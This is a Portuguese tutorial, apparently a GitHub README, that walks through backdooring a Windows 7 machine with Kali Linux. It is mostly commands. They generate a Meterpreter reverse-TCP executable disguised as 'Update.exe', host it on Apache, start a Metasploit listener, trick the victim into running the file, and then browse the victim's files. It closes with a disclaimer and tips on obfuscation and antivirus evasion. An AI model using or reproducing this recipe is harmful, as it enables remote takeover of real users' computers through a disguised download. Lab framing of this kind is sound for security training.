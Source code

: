 # 🚀 Guia de Adição de Backdoor em Executáveis com Kali Linux

## 🛠️ Ferramentas Necessárias

- 💻 **Kali Linux** + 🛠️ **Metasploit Framework**
- 💻 **Windows 7**

---

## 🔎 Visão Geral

Este guia apresenta um método básico para explorar uma máquina Windows 7 usando Kali Linux, Metasploit Framework e um servidor Apache para hospedar um payload malicioso. O ataque descrito aqui é rudimentar e depende da engenharia social para enganar o usuário a baixar e executar o arquivo. 

---

## 🔧 Configuração do Kali Linux

### 1️⃣ Abrir o terminal e obter privilégios de root

```
Sudo su
(Senha do seu Kali)
```

### 2️⃣ Obter o endereço IP do Kali

```
ip addr
```
- Anote o IP exibido na interface correta (geralmente *eth0* ou *wlan0*).

### 3️⃣ Criando o Payload Backdoor

Gerar um executável malicioso com o **msfvenom**:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f exe LHOST=X.X.X.X LPORT=4444 -o Update.exe
```
- Substitua X.X.X.X pelo IP do Kali.
- LPORT=4444 define a porta usada para conexão reversa.
- Update.exe é o nome do arquivo malicioso (pode ser modificado para algo mais convincente).

### 4️⃣ Hospedando o Arquivo
Iniciar um servidor Apache para que a vítima baixe o arquivo:

```
service apache2 start
```

Mover o arquivo malicioso para o diretório do servidor web:
```
mv Update.exe /var/www/html/
```

Verificar se o arquivo está no diretório correto:
```
cd /var/www/html && ls
```

## 🎯 Configuração do Metasploit

### 1️⃣ Iniciar o Metasploit Framework
```
msfconsole
```

### 2️⃣ Configurar o Listener

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST X.X.X.X (# IP do Kali Linux.)
set LPORT 4444 (# Mesma porta definida no payload.)
exploit
```
- Aguarde a conexão da vítima.

## 💻 Execução no Windows 7 (Máquina Alvo)

### 1️⃣ Criar um Arquivo de Flag

```
echo "Backdoor ativo!" > C:\Users\Public\flag.txt
```

### 2️⃣ Obter o IP da Máquina

```
ipconfig
```

### 3️⃣ Baixar e Executar o Arquivo Malicioso

- Abrir o navegador e acessar:
```
http://X.X.X.X/Update.exe (# Substituir X.X.X.X pelo IP do Kali Linux.)
```
- Baixar e executar o arquivo.
- Assim que a vítima executar, a sessão Meterpreter será iniciada no Kali Linux.

## 🕵️ Exploração na Máquina Alvo

### 1️⃣ Verificar a Sessão Ativa

```
sessions
```

### 2️⃣ Conectar-se à Máquina Comprometida

```
sessions X  # Substitua X pelo ID da sessão
```

#### 3️⃣ Navegar entre diretórios

```
dir
cd ..
cd Desktop
``` 

### 4️⃣ Localizar e ler a flag

```
type "%USERPROFILE%\Desktop\flag.txt"
```
- Isso exibirá o conteúdo do arquivo no CMD sem alertar o usuário.
---

## ⚠️ **Atenção**
Este guia é apenas para fins educativos e de segurança ofensiva em ambientes controlados. Não utilize para atividades maliciosas.

## 📊 **Resultados**
Este ataque foi testado em ambiente controlado e depende de engenharia social para que a vítima baixe e execute o arquivo. A eficácia pode ser aumentada com técnicas de ofuscação do payload, bypassing de antivírus e disfarces convincentes. Use com responsabilidade!
